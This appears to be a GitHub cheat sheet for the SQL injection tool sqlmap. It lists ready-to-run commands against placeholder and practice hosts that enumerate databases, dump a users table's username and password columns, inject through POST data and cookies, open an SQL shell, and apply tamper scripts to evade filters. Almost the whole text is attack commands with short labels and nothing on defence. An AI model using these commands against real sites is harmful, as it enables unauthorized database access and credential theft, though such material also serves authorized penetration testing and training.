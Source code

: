 # Cheat Sheet

**Easy Scanning option**
<pre>sqlmap -u "http://testsite.com/login.php"</pre>

**List all databases at the site**
<pre>sqlmap -u "http://testsite.com/login.php" --dbs</pre>

**List all tables in a specific database**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db --tables</pre>

**List all columns in a table**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db -T users --dump</pre>

**Dump only selected columns**
<pre>sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump
</pre>

**Dump a table from a database when you have admin credentials**
<pre>sqlmap -u "http://testsite.com/login.php" –method "POST" --data="username=admin&password=admin&submit=Submit" -D social_mccodes -T users --dump
</pre>

**Add Technique**
<pre>sqlmap -u "http://testsite.com/home.php?id=" --dbs --technique=U -p "id"</pre>

**Get SQL Shell**
<pre>sqlmap --dbms=mysql -u "http://testsite.com/login.php" --sql-shell </pre>

**Cookie Injection**
<pre>sqlmap --cookie="user_id=1" -u "http://localhost/index.php" -p "user_id" --level 3 </pre>

**User Agent Injection**
<pre>sqlmap  -u "http://localhost/index.php" --level 3 </pre>

**Apply custom tamper script**

Create a tamper script called "mytamper.py" in the /usr/share/sqlmap/tamper

<pre>sqlmap -u "http://2.challenge.sqli.site/view_book.php?id=3" --cookie="userchl2_info=" -p userchl2_info --level=2 --dbms=mysql --tamper=mytamper --banner</pre>


**Get Req Example**
<pre>sqlmap -u "url/ajax.php?fun=login&username=test&password=test" --keep-alive</pre>

**Post Req Example**

<pre>sqlmap  -u "url" 
--data="fun=login&username=test&password=test"</pre>


# Switches

**--user-agent**

**--referer**

**--headers**

**--technique= U | B | E**
